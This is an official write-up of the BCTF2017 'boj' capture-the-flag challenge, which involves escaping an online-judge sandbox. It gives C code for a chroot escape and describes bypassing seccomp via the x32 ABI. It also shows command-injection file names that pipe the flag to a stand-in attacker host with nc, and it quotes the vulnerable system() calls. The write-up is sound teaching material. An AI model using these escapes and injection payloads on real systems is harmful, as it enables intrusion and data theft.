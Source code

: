 ```yaml
---
layout: post
title: BCTF2017 boj official writeup 
categories: [Sandbox, PWN, Writeup]
description: BCTF2017 boj official writeup by Atum
keywords: BCTF, PWN, Writeup
---
```


# boj official writeup 

blue-lotus onlinejudge judge system, as you know, the code you submit will be run on remote server.
[challenge environment](https://github.com/A7um/bctf2017/tree/master/boj)

## step 1 escape seccomp

1. try to connect back to your host by
	
	```
	system("echo hello|nc yourhost yourport") 
	result: failed, remote server filtered syscall execve
	socket(yourhost:yourport)->send("hello") 
	result: wow, you get hello on yourhost:yourport
	```
	
2. use opendir->readdir->socket->send to list remote dir 

	```
	scf.so
	14xxxxxxxx
	```
	
3. dump scf.so by open->read->socket->send. by reversing scf.so, you find that scf.so applied a seccomp syscall filter by hooking \_\_libc\_start\_main. 

	```
	#define VALIDATE_ARCHITECTURE \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr), \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	#define EXAMINE_SYSCALL \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)
	
	#define BLOCK_SYSCALL(name) \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_##name, 0, 1), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	/* Validate architecture. */
	VALIDATE_ARCHITECTURE,
	/* Grab the system call number. */
	EXAMINE_SYSCALL,
	BLOCK_SYSCALL(execve),
	BLOCK_SYSCALL(fork),
	BLOCK_SYSCALL(ptrace),
	BLOCK_SYSCALL(clone),
	BLOCK_SYSCALL(chroot),
	BLOCK_SYSCALL(pivot_root),
	BLOCK_SYSCALL(process_vm_readv),
	BLOCK_SYSCALL(process_vm_writev),
	ALLOW_PROCESS,
	```
	
obviously, this filter can be evaded by x32abi.

## step 2 escape chroot

1. run some api to gather infomation such as:
	
	```
	getuid,ret 0 
	getpid,ret 3
	getcwd,ret /root/
	
	system("ls everywhere")
	cannot find flag and directory is not complete. you realize that you are in a chroot environment. 
	```
	
2. escape chroot by

	```
	mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot("."); 
	```
	
3. list dir outside, you find some interesting files

	```
	/flag
	/start.h
	/home/ctf/setup.h
	/home/ctf/oj/*
	```
	
4. try to read /flag, you get permission deny. run system("ls -al /flag"), you get
	
	```
	-r--r----- 1 nobody nogroup    46 Apr 14 03:21 flag
	```
	
5. read /start.sh and /home/ctf/setup.sh, you find some binaries of boj: 
	
	```
	/usr/lib/cgi-bin/onlinejudge.cgi
	/usr/lib/cgi-bin/statequery.cgi
	/home/ctf/oj/sandbox/sandbox
	/home/ctf/oj/sandbox/scf.so
	/home/ctf/oj/sandbox/cr
	```
	
6. dump these binaries

## step 3 escape usernamespace
1. reverse sandbox, you find you are in a user namepsace. the root you own is not a real root. uid=0 inside namespace is mapped to uid=1000 outside.
2. reverse cr, you find there is a command injection bug. 

	```
	int run(char* binname){
	....
		snprintf(runcmd,310,"%s %s",sandboxpath,binpath);
	....
		if(pid==0){
	        drop(1000,1000);
	        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
	            perror("signal");
	        }
	        alarm(2);
	        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Runing","N/A");
	        fd=open(statepath,O_WRONLY|O_CREAT);
	        write(fd,state,strlen(state));
	        close(fd);
	        chdir(sandboxdirname);
	        system(runcmd);
	....
	
	```
	
3. cr is running outside the namespace, you can inject command to get which user&group the flag really belong to

	```
		touch '/home/ctf/oj/bin/ad.c;ls -al flag|nc yourhost yourport';
		-r--r----- 1 root www-data    46 Apr 14 03:21 flag
	```
	
4. www-data is uid=33 && gid=33(read /etc/passwd). by reversing cr, you find: cr set it uid&&gid to 33 before compile. and by the way, these is a command injection error in compile function.

	```
	int compile(char *srcname){
	....
	 	snprintf(compilecmd,310,"gcc -o %s %s",binpath,srcpath);
	....
		if(pid==0)
		    {
		        drop(33,33);
		        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
		            perror("signal");
		        }
		        alarm(1);
		        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Compiling","N/A");
		        fd=open(statepath,O_WRONLY|O_CREAT);
		        write(fd,state,strlen(state));
		        close(fd);
		        system(compilecmd);//file name command injuection
	....
	```
	
5. read flag by submiting system("touch '/home/ctf/oj/src/hahaha.c;cat flag|nc yourhost yourport;'"); 
6. you get flag on your own host, done :) 

## something else

Chanllenge boj is designed to be a whitebox challenge mainly, the only blackbox step is try to connect back and get scf.so. after you get scf.so, you need to do something like: list dir->dump binaries->reversing->exploit->list dir->dump binaries->reversing->exploit...

I saw some teams tried and guessed blindly during the game. as we know, such guessing and trying is boring. I feel so sorry about that, maybe some infomation in this challenge mislead you guys to do a purely blackbox attack.